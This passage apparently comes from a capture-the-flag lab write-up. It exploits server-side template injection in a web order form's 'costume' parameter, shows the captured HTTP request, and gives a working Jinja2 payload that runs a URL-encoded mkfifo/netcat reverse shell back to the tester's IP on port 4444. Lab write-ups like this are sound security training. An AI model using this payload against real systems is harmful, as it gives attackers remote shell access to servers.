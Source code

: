 ```http
POST /order HTTP/1.1
Host: 10.129.96.151:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.129.96.151:5000
Connection: close
Referer: http://10.129.96.151:5000/order
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.SYLPqHmtbgIzpOiaVnKoifTOeTuOBMPy5adK8v0DD6E
Upgrade-Insecure-Requests: 1



costume=goggles&q=test&addr=test
```

A quick test reveals the `costume` parameter to be the injection point using `{{config.items()}}`.

<figure><img src="../../../.gitbook/assets/image (2610).png" alt=""><figcaption></figcaption></figure>

Here's a payload I used that got me a reverse shell:

```
{{+self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.39%204444%20%3E%2Ftmp%2Ff').read()+}}
```

<figure><img src="../../../.gitbook/assets/image (1941).png" alt=""><figcaption></figcaption></figure>
